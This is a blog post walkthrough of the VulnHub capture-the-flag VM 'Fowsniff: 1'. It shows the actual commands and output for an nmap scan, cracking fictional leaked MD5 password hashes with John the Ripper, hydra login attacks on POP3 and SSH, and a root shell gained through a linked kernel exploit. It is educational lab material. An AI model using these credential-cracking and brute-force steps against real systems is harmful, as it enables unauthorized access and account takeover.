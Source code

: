 ```yaml
---
layout: post
title: "Fowsniff: 1 Walkthrough"
subtitle: "I Smell Foul Play"
date: 2018-11-23 14:59:31 +0000
category: Walkthrough
tags: [VulnHub, Fowsniff]
comments: false
image:
  feature: fowsniff-1-walkthrough.jpg
  credit: stevepb / Pixabay
  creditlink: https://pixabay.com/en/mistake-spill-slip-up-accident-876597/
---
```


This post documents the complete walkthrough of Fowsniff: 1, a boot2root [VM][1] created by [berzerk0][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Fowsniff Corp got breached!

```
       WHAT SECURITY?

            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |
|       .oooO                |
|        (   )   Oooo.       |
+---------\ (----(   )-------+
           \\_)    ) /
                 (_/


Fowsniff Corp got pwn3d by B1gN1nj4!


No one is safe from my 1337 skillz!
```

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: RESP-CODES PIPELINING SASL(PLAIN) UIDL USER AUTH-RESP-CODE TOP CAPA
143/tcp open  imap    syn-ack ttl 64 Dovecot imapd
|_imap-capabilities: IDLE more listed LITERAL+ ID post-login have IMAP4rev1 OK capabilities AUTH=PLAINA0001 SASL-IR Pre-login LOGIN-REFERRALS ENABLE
```

`nmap` finds `22/tcp`, `80/tcp`, `110/tcp`, `143/tcp`. Pretty common services—nothing out of the ordinary. In any case, let's start with `http` first.

Here's what the site looks like.

![f77a9c89.png](/assets/images/posts/fowsniff-1-walkthrough/f77a9c89.png)

WTF??!! Are you serious?

Scrolling down, you'll see what went wrong at Fowsniff Corp.

![506e5d19.png](/assets/images/posts/fowsniff-1-walkthrough/506e5d19.png)

They are not lying when they say the attackers may release sensitive information through Twitter.

![658278d2.png](/assets/images/posts/fowsniff-1-walkthrough/658278d2.png)

Let's see what the attackers have to offer.

```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \\_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
This list is entirely fictional and is part of a Capture the Flag educational challenge.

All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.

Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

### Password Recovery

Let's recover the passwords from those hashes with John the Ripper. Yummy!

```
# /opt/john/john -format=raw-md5 --show hashes.txt
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```

Eight out of nine recovered. Impressive.

### Password Verification

Now, let's verify who has access to what with `hydra`.

```
# hydra -L usernames.txt -P passwords.txt -e nsr pop3://192.168.30.129
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-24 09:19:19
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 96 login tries (l:8/p:12), ~6 tries per task
[DATA] attacking pop3://192.168.30.129:110/
[110][pop3] host: 192.168.30.129   login: seina   password: scoobydoo2
[STATUS] 96.00 tries/min, 96 tries in 00:01h, 1 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-24 09:20:29
```

Hmm. Someone didn't change their password after the breach.

### Popping Emails

I know it's unethical to read other's email but the temptation is too great. Can't help it, let's read `seina`'s email then.

![3b31d0de.png](/assets/images/posts/fowsniff-1-walkthrough/3b31d0de.png)

Now now now, what do we have here? SSH password??!!

### Password Verification Redux

Let's see who hasn't change their password.

```
# hydra -L usernames.txt -p 'S1ck3nBluff+secureshell' ssh://192.168.30.129
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-24 09:28:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:8/p:1), ~1 try per task
[DATA] attacking ssh://192.168.30.129:22/
[22][ssh] host: 192.168.30.129   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-24 09:28:55
```

Caught in action. `baksteen` is in trouble.

### Low-Privilege Shell

Armed with the SSH password, let's give ourselves a low-privilege shell.

![4e189efa.png](/assets/images/posts/fowsniff-1-walkthrough/4e189efa.png)

Boom. I'm in.

### Privilege Escalation

During enumeration of `baksteen`'s account, I notice the kernel (4.4.0-116-generic) is vulnerable to a local privilege escalation [exploit](https://www.exploit-db.com/exploits/44298/).

`gcc` is also not installed on `fowsniff`. No problem. I can compile the exploit on my attacking machine and transfer it over with `scp`.

![27f32891.png](/assets/images/posts/fowsniff-1-walkthrough/27f32891.png)

Damn. This is too easy.

![f45678ec.png](/assets/images/posts/fowsniff-1-walkthrough/f45678ec.png)

### What's the Flag?

Getting the flag with a `root` shell is trivial.

![a55aa93d.png](/assets/images/posts/fowsniff-1-walkthrough/a55aa93d.png)

:dancer:

[1]: https://www.vulnhub.com/entry/fowsniff-1,262/
[2]: https://twitter.com/@berzerk0
[3]: https://www.vulnhub.com/
